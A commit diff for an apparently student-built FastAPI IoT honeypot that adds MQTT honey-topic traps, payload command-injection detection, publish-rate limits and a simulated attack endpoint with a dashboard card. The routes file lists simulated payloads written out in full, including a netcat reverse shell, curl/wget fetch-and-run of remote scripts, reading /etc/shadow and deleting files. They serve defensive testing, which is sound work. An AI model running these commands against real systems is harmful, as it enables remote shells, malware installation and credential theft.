

Before and after one commit to kapi272/Final-project, a FastAPI app: page / in a window 1280 px wide. Shown: the part 317-1061 px from the top of the page. Run offline with FastAPI, Linux system fonts and the light colour scheme; data that the repository does not hold is empty; some libraries are stand-ins or nearby versions.

Commit message:
feat: Phase B - MQTT honey-topic trap & payload anomaly detection engine
- Extended autonomous closed-loop defense to MQTT port 1883 with honey-topic traps (home/admin/#, home/debug/#, home/system/firmware_update, home/gateway/exec).
- Added deep payload command injection inspection, 32KB buffer overflow protection, and publish rate flood detection.
- Wired real-time quarantine of compromised live devices and Netfilter bans for offending MQTT publisher IPs.
- Added POST /api/simulate/attack/mqtt-exploit endpoint with 5-IP pool, 4th Red Team dashboard UI trigger card, and CLI flag in tests/attacker_sim.py.
- Expanded test suite with 5 new unit tests (57/57 passing).

```diff
--- a/controller/api/app.py
+++ b/controller/api/app.py
@@ -72,6 +72,39 @@ def create_app(
         """Broadcasts IoT node sensor and actuator MQTT messages filtered by active traffic mode."""
         mode = getattr(app.state, "traffic_mode", "simulated")
         matched_dev, is_sim_default = device_manager.match_mqtt_message(topic, payload)
+
+        src_ip = matched_dev["ip_address"] if matched_dev else None
+        device_id = matched_dev["device_id"] if matched_dev else None
+
+        # Autonomous MQTT Protocol & Deception Inspection
+        mqtt_mitigation = detector_instance.evaluate_mqtt_message(
+            topic=topic,
+            payload=payload,
+            src_ip=src_ip,
+            device_id=device_id,
+        )
+        if mqtt_mitigation is not None:
+            # If the offending sender is a registered real hardware device, quarantine it
+            if matched_dev is not None:
+                device_manager.set_device_blocked(
+                    device_id=matched_dev["device_id"],
+                    blocked=True,
+                    status="QUARANTINED",
+                )
+                await sse_broadcaster.broadcast("quarantine_alert", {
+                    "container": matched_dev["name"],
+                    "status": "quarantined",
+                    "reason": mqtt_mitigation.reason,
+                    "timestamp": ts,
+                    "target_type": "device",
+                    "device_id": matched_dev["device_id"],
+                })
+                updated_dev = device_manager.get_device(matched_dev["device_id"])
+                if updated_dev:
+                    await sse_broadcaster.broadcast("device_updated", updated_dev)
+
+            # Drop malicious payload so it never reaches application mesh
+            return
 
         if mode == "simulated":
             # In Simulated Mode, stream virtual mesh telemetry only; ignore live registered devices
--- a/controller/api/routes.py
+++ b/controller/api/routes.py
@@ -43,6 +43,13 @@ ATTACK_IP_POOLS: Dict[str, List[str]] = {
         "203.0.113.92",
         "192.0.2.199",
     ],
+    "mqtt-exploit": [
+        "198.51.100.112",
+        "198.51.100.165",
+        "203.0.113.71",
+        "203.0.113.140",
+        "192.0.2.98",
+    ],
 }
 
 EXPLOIT_PAYLOADS: Tuple[str, ...] = (
@@ -51,6 +58,14 @@ EXPLOIT_PAYLOADS: Tuple[str, ...] = (
     "nc -e /bin/sh 192.0.2.55 4444",
     "cat /etc/shadow && rm -rf /tmp/traces",
     "wget http://198.51.100.10/loader.sh -O - | /bin/bash",
+)
+
+MQTT_EXPLOIT_PAYLOADS: Tuple[Tuple[str, str], ...] = (
+    ("home/admin/config", '{"cmd": "curl -s http://malicious.payload/botnet.sh | sh", "admin": true}'),
+    ("home/system/firmware_update", '{"firmware_url": "http://198.51.100.10/loader.sh; chmod +x /tmp/loader"}'),
+    ("home/debug/shell", '{"exec": "/bin/sh -c rm -rf /tmp/traces"}'),
+    ("home/gateway/exec", '{"payload": "nc -e /bin/sh 192.0.2.55 4444"}'),
+    ("home/admin/credentials", '{"action": "dump_users", "format": "cat /etc/shadow"}'),
 )
 
 
@@ -532,6 +547,55 @@ async def trigger_simulated_port_sweep(
     )
 
 
+@router.post("/simulate/attack/mqtt-exploit")
+async def trigger_simulated_mqtt_exploit(
+    request: Request,
+    payload: Optional[AttackSimulationRequest] = Body(default=None),
+) -> Dict[str, Any]:
+    """Triggers an MQTT honey-topic breach and payload injection exploit simulation."""
+    _ensure_simulated_mode(request)
+    detector = get_detector(request)
+    broadcaster = get_broadcaster(request)
+    target_ips, mode = _resolve_simulation_targets("mqtt-exploit", payload)
+    pre_banned = {ip for ip in target_ips if detector.firewall.is_ip_banned(ip)}
+    exploits_used: List[str] = []
+
+    for idx, attacker_ip in enumerate(target_ips):
+        topic, mqtt_payload = MQTT_EXPLOIT_PAYLOADS[idx % len(MQTT_EXPLOIT_PAYLOADS)]
+        exploits_used.append(f"{topic}: {mqtt_payload[:50]}")
+        # Broadcast synthetic MQTT threat frame
+        await broadcaster.broadcast("iot_telemetry", {
+            "topic": topic,
+            "payload": mqtt_payload,
+            "timestamp": time.time(),
+            "device_id": f"rogue_{attacker_ip.replace('.', '_')}",
+            "device_name": f"Adversary Node ({attacker_ip})",
+            "mode": "simulated",
+            "threat": True,
+        })
+        # Evaluate directly in detector
+        detector.evaluate_mqtt_message(
+            topic=topic,
+            payload=mqtt_payload,
+            src_ip=attacker_ip,
+        )
+        if len(target_ips) > 1:
+            await asyncio.sleep(0.03)
+
+    data = _build_simulation_result(
+        detector,
+        target_ips,
+        mode,
+        len(target_ips),
+        pre_banned,
+        extra={"exploit": exploits_used[0]},
+    )
+    return make_response(
+        data=data,
+        message=f"MQTT honey-topic exploit simulation ({mode}) completed for {', '.join(target_ips)}.",
+    )
+
+
 @router.get("/defense/analytics")
 async def get_defense_analytics(request: Request) -> Dict[str, Any]:
     """Returns aggregated honeypot threat intelligence and attack analytics."""
--- a/controller/core/detector.py
+++ b/controller/core/detector.py
@@ -25,6 +25,25 @@ CRITICAL_COMMAND_PATTERNS: List[str] = [
     "cat /etc/shadow",
 ]
 
+MQTT_HONEY_TOPIC_PREFIXES: List[str] = [
+    "home/admin/",
+    "home/debug/",
+    "home/system/",
+    "home/gateway/",
+]
+
+MQTT_HONEY_TOPIC_EXACT: List[str] = [
+    "home/admin/config",
+    "home/admin/credentials",
+    "home/debug/shell",
+    "home/system/firmware_update",
+    "home/gateway/exec",
+]
+
+MAX_MQTT_PAYLOAD_BYTES: int = 32 * 1024  # 32 KB
+DEFAULT_MQTT_RATE_LIMIT: int = 20  # Max 20 msgs in 5s
+DEFAULT_MQTT_RATE_WINDOW: float = 5.0
+
 
 class IntrusionDetector:
     """
@@ -50,6 +69,8 @@ class IntrusionDetector:
 
         # In-memory sliding window: IP -> deque of timestamps
         self._failed_attempts: Dict[str, deque] = {}
+        # In-memory sliding window for MQTT publish rates: tracking_key -> deque of timestamps
+        self._mqtt_publish_times: Dict[str, deque] = {}
 
         # Telemetry analytics counters
         self._attack_counts: Dict[str, int] = {"brute_force": 0, "exploit": 0, "probe": 0}
@@ -188,6 +209,122 @@ class IntrusionDetector:
 
         return mitigation
 
+    def is_honey_topic(self, topic: str) -> bool:
+        """Determines if an MQTT topic belongs to a deceptive honey-topic namespace."""
+        clean_topic = topic.strip().lower()
+        if clean_topic in MQTT_HONEY_TOPIC_EXACT:
+            return True
+        for prefix in MQTT_HONEY_TOPIC_PREFIXES:
+            if clean_topic.startswith(prefix):
+                return True
+        return False
+
+    def evaluate_mqtt_message(
+        self,
+        topic: str,
+        payload: str,
+        src_ip: Optional[str] = None,
+        device_id: Optional[str] = None,
+    ) -> Optional[MitigationRecord]:
+        """
+        Inspects an incoming MQTT message for deceptive honey-topic breaches, command injections,
+        oversized buffer anomalies, and publish rate flooding.
+        """
+        now = time.time()
+        clean_topic = topic.strip()
+        effective_ip = (src_ip or "").strip()
+        tracking_key = effective_ip or device_id or clean_topic
+
+        # Update target port analytics counter for 1883
+        self._port_counts["1883"] = self._port_counts.get("1883", 0) + 1
+
+        # Track publish rate in sliding window
+        if tracking_key:
+            if tracking_key not in self._mqtt_publish_times:
+                self._mqtt_publish_times[tracking_key] = deque()
+            queue = self._mqtt_publish_times[tracking_key]
+            queue.append(now)
+            cutoff = now - DEFAULT_MQTT_RATE_WINDOW
+            while queue and queue[0] < cutoff:
+                queue.popleft()
+
+        reason: Optional[str] = None
+        severity = "HIGH"
+        attack_type = "mqtt_exploit"
+
+        # 1. Check Deceptive Honey-Topic Access
+        if self.is_honey_topic(clean_topic):
+            reason = f"MQTT honey-topic breach on '{clean_topic}'"
+            severity = "CRITICAL"
+            attack_type = "mqtt_trap"
+
+        # 2. Check Payload Command Injection Patterns
+        if not reason and payload:
+            lowered_payload = payload.lower()
+            for pattern in CRITICAL_COMMAND_PATTERNS:
+                if pattern in lowered_payload:
+                    reason = f"MQTT payload exploit command detected: '{pattern.strip()}' in '{clean_topic}'"
+                    severity = "CRITICAL"
+                    attack_type = "mqtt_exploit"
+                    break
+
+        # 3. Check Buffer Overflow / Oversized Payload Anomaly
+        if not reason and len(payload.encode("utf-8", errors="replace")) > MAX_MQTT_PAYLOAD_BYTES:
+            reason = f"MQTT oversized payload anomaly ({len(payload)} bytes) on '{clean_topic}'"
+            severity = "HIGH"
+            attack_type = "mqtt_exploit"
+
+        # 4. Check Publish Rate Flooding
+        if not reason and tracking_key:
+            rate_count = len(self._mqtt_publish_times.get(tracking_key, []))
+            if rate_count > DEFAULT_MQTT_RATE_LIMIT:
+                reason = f"MQTT publish rate anomaly: {rate_count} msgs in {DEFAULT_MQTT_RATE_WINDOW:.0f}s on '{clean_topic}'"
+                severity = "HIGH"
+                attack_type = "mqtt_flood"
+
+        if not reason:
+            return None
+
+        # Record threat analytics
+        self._attack_counts["exploit"] = self._attack_counts.get("exploit", 0) + 1
+        event_record = {
+            "timestamp": now,
+            "src_ip": effective_ip or f"mqtt:{device_id or clean_topic}",
+            "dst_port": 1883,
+            "eventid": f"mqtt.{attack_type}",
+            "attack_type": attack_type,
+            "username": device_id or "",
+            "password": "",
+            "input_command": payload[:80] if payload else "",
+            "message": reason,
+        }
+        self._events_history.append(event_record)
+        if len(self._events_history) > 500:
+            self._events_history = self._events_history[-500:]
+
+        try:
+            self.db.record_threat_event(event_record)
+        except Exception as e:
+            logger.error("Failed to record MQTT threat event: %s", e)
+
+        # Invariant check: Allowlisted and management IPs are never banned
+        if effective_ip and self.allowlist.is_ip_protected(effective_ip):
+            logger.debug("MQTT source IP %s is protected by allowlist; skipping firewall ban.", effective_ip)
+            return None
+
+        if effective_ip:
+            if not self.firewall.is_ip_banned(effective_ip):
+                return self._execute_ban(effective_ip, reason=reason, severity=severity)
+
+        record = MitigationRecord(
+            src_ip=effective_ip or f"mqtt:{device_id or clean_topic}",
+            action="MQTT_ISOLATE" if device_id else "IPTABLES_DROP",
+            reason=reason,
+            severity=severity,
+            timestamp=now,
+        )
+        return record
+
     def _execute_ban(self, ip: str, reason: str, severity: str) -> MitigationRecord:
         """Executes firewall drop rule, records audit log in SQLite, and invokes listeners."""
         logger.warning("AUTONOMOUS MITIGATION TRIGGERED -> Target: %s | Reason: %s", ip, reason)
@@ -255,6 +392,7 @@ class IntrusionDetector:
         self.firewall.flush_blocklist()
         self.db.reset_database()
         self._failed_attempts.clear()
+        self._mqtt_publish_times.clear()
         self._attack_counts = {"brute_force": 0, "exploit": 0, "probe": 0}
         self._username_counts.clear()
         self._password_counts.clear()
--- a/controller/static/app.js
+++ b/controller/static/app.js
@@ -898,9 +898,10 @@ document.addEventListener("DOMContentLoaded", () => {
     const ATTACK_IP_POOLS = {
         "brute-force": ["198.51.100.99", "198.51.100.142", "198.51.100.205", "203.0.113.45", "192.0.2.81"],
         "exploit": ["203.0.113.88", "203.0.113.154", "203.0.113.219", "198.51.100.175", "192.0.2.114"],
-        "port-sweep": ["198.51.100.77", "198.51.100.188", "192.0.2.63", "203.0.113.92", "192.0.2.199"]
-    };
-    const attackRotationIndex = { "brute-force": 0, "exploit": 0, "port-sweep": 0 };
+        "port-sweep": ["198.51.100.77", "198.51.100.188", "192.0.2.63", "203.0.113.92", "192.0.2.199"],
+        "mqtt-exploit": ["198.51.100.112", "198.51.100.165", "203.0.113.71", "203.0.113.140", "192.0.2.98"]
+    };
+    const attackRotationIndex = { "brute-force": 0, "exploit": 0, "port-sweep": 0, "mqtt-exploit": 0 };
 
     // Show/hide inline custom IP input on Red Team simulation cards
     window.toggleCustomAttackIp = function(cardKey) {
@@ -922,8 +923,10 @@ document.addEventListener("DOMContentLoaded", () => {
         const btn = document.getElementById(`btn-attack-${cardKey}`);
         const selectEl = document.getElementById(`select-ip-${cardKey}`);
         const customInputEl = document.getElementById(`custom-ip-${cardKey}`);
-        const proto = attackType === "port-sweep" ? "TCP:SWEEP" : "SSH:2222";
-        const sev = attackType === "exploit" ? "CRIT" : "HIGH";
+        let proto = "SSH:2222";
+        if (attackType === "port-sweep") proto = "TCP:SWEEP";
+        else if (attackType === "mqtt-exploit") proto = "MQTT:1883";
+        const sev = (attackType === "exploit" || attackType === "mqtt-exploit") ? "CRIT" : "HIGH";
 
         const selection = selectEl ? selectEl.value : "rotate";
         let requestPayload = { mode: "single" };
--- a/controller/templates/index.html
+++ b/controller/templates/index.html
@@ -239,8 +239,13 @@
         html.light .text-indigo-400 { color: #4338ca; }
 
         html.light .bg-cyan-950,
-        html.light .bg-cyan-950\/80 { background-color: #ecfeff; }
-        html.light .border-cyan-700\/70 { border-color: #a5f3fc; }
+        html.light .bg-cyan-950\/80,
+        html.light .bg-cyan-950\/60,
+        html.light .bg-cyan-950\/40 { background-color: #ecfeff; }
+        html.light .hover\:bg-cyan-900:hover { background-color: #cffafe; }
+        html.light .border-cyan-700\/70,
+        html.light .border-cyan-800 { border-color: #a5f3fc; }
+        html.light .text-cyan-300,
         html.light .text-cyan-400 { color: #0e7490; }
 
         /* Preserve crisp white typography on saturated solid buttons & active pills */
@@ -549,7 +554,7 @@
                     <span class="text-xs font-mono text-slate-400">Click a vector to trigger closed-loop detection &amp; autonomous mitigation</span>
                 </div>
 
-                <div class="grid grid-cols-1 md:grid-cols-3 gap-4 pt-1">
+                <div class="grid grid-cols-1 sm:grid-cols-2 lg:grid-cols-4 gap-4 pt-1">
                     <!-- Trigger 1: Credential Brute-Force -->
                     <div class="p-3.5 rounded bg-slate-950/70 border border-slate-800/90 hover:border-slate-700 flex flex-col justify-between transition-all">
                         <div>
@@ -628,6 +633,33 @@
                         </div>
                         <button id="btn-attack-portsweep" onclick="triggerAttack('port-sweep')" class="w-full py-1.5 px-3 text-xs font-semibold rounded bg-sky-950/40 hover:bg-sky-900 border border-sky-800 hover:border-sky-700 text-sky-300 transition-all flex items-center justify-center space-x-2">
                             <span>📡 Trigger Port Sweep</span>
+                        </button>
+                    </div>
+
+                    <!-- Trigger 4: MQTT Honey-Topic & Payload Exploit -->
+                    <div class="p-3.5 rounded bg-slate-950/70 border border-slate-800/90 hover:border-slate-700 flex flex-col justify-between transition-all">
+                        <div>
+                            <div class="flex items-center justify-between mb-1.5">
+                                <span class="text-xs font-bold text-slate-200">MQTT Honey-Topic Exploit</span>
+                                <span class="px-1.5 py-0.5 rounded text-[10px] font-mono font-bold bg-cyan-950/60 border border-cyan-800 text-cyan-400">PORT 1883</span>
+                            </div>
+                            <p class="text-[11px] text-slate-400 mb-2.5">Deceptive topic breach (<code class="text-slate-300 font-mono">home/admin/#</code>) & payload injection.</p>
+                            <div class="mb-3 space-y-1.5">
+                                <select id="select-ip-mqttexploit" onchange="toggleCustomAttackIp('mqttexploit')" class="w-full px-2 py-1 rounded bg-slate-900 border border-slate-700/80 text-[11px] font-mono text-cyan-300 focus:outline-none focus:border-cyan-500">
+                                    <option value="rotate" selected>🔄 Auto-Rotate IP (5-IP Pool)</option>
+                                    <option value="198.51.100.112">198.51.100.112 (MQTT Broker Prober)</option>
+                                    <option value="198.51.100.165">198.51.100.165 (Payload Injector)</option>
+                                    <option value="203.0.113.71">203.0.113.71 (Admin Topic Scanner)</option>
+                                    <option value="203.0.113.140">203.0.113.140 (Firmware Exploit)</option>
+                                    <option value="192.0.2.98">192.0.2.98 (Gateway Shell Inject)</option>
+                                    <option value="swarm">🌐 Swarm Mode (All 5 IPs)</option>
+                                    <option value="custom">✏️ Custom IP Address...</option>
+                                </select>
+                                <input id="custom-ip-mqttexploit" type="text" placeholder="Enter custom IPv4 (e.g. 198.51.100.112)" class="hidden w-full px-2 py-1 rounded bg-slate-900 border border-slate-700 text-[11px] font-mono text-slate-200 placeholder-slate-500 focus:outline-none focus:border-cyan-500" />
+                            </div>
+                        </div>
+                        <button id="btn-attack-mqttexploit" onclick="triggerAttack('mqtt-exploit')" class="w-full py-1.5 px-3 text-xs font-semibold rounded bg-cyan-950/40 hover:bg-cyan-900 border border-cyan-800 hover:border-cyan-700 text-cyan-300 transition-all flex items-center justify-center space-x-2">
+                            <span>⚡ Trigger MQTT Exploit</span>
                         </button>
                     </div>
                 </div>
@@ -1425,6 +1457,6 @@
     </div>
 
     <!-- SOC Terminal JS Client -->
-    <script src="/static/app.js?v=2.0.3"></script>
+    <script src="/static/app.js?v=2.1.0"></script>
 </body>
 </html>
```
Also changed, not shown: context/architecture.md (+2 -1 lines), context/progress-tracker.md (+1 -0 lines), context/project-overview.md (+5 -0 lines), tests/attacker_sim.py (+23 -1 lines), tests/test_api_endpoints.py (+9 -1 lines), tests/test_dashboard_ui.py (+3 -1 lines), tests/test_detection_engine.py (+61 -0 lines), README.md.
